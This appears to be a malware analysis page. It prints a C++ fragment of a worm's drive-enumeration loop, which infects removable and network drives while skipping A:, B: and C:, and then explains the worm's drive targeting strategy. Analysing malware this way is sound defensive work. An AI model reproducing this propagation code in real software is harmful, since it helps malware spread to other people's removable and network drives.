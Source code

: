 ```cpp
            // Skip A:, B:, and C: drives
            char drive_letter = tolower(current_drive[0]);
            if (drive_letter != 'a' && 
                drive_letter != 'b' && 
                drive_letter != 'c') {
                
                // Disable critical error handling
                SetErrorMode(SEM_FAILCRITICALERRORS);
                
                // Handle removable drives
                if (drive_type == DRIVE_REMOVABLE) {
                    if (GetVolumeInformationA(current_drive, 
                        volume_name, 0x105, NULL, NULL, 
                        NULL, NULL, 0)) {
                        // Use volume name for infection
                        VIBE::infect_target_directory(
                            current_drive, volume_name, 0);
                    } else {
                        // Use default name if volume info fails
                        VIBE::infect_target_directory(
                            current_drive, "Removable", 0);
                    }
                }
                
                // Handle network drives
                if (drive_type == DRIVE_REMOTE) {
                    VIBE::infect_target_directory(
                        current_drive, "Network", 1);
                }
            }
            
            // Move to next drive
            current_drive += 4;
        }
        
        // Wait before next enumeration cycle
        Sleep(1000);
    }
    
    return 0;
}
```

**Drive Targeting Strategy**:
1. **Drive Type Filtering**:
   - Specifically targets DRIVE_REMOVABLE (Type 2)
   - Also targets DRIVE_REMOTE (Type 4)
   - Explicitly excludes drives A:, B:, and C:
   - Uses GetDriveTypeA for drive type detection

2. **Volume Information Handling**:
   - Attempts to retrieve volume names for removable drives
   - Falls back to default names if volume info retrieval fails
   - Uses different naming strategies for network vs removable drives
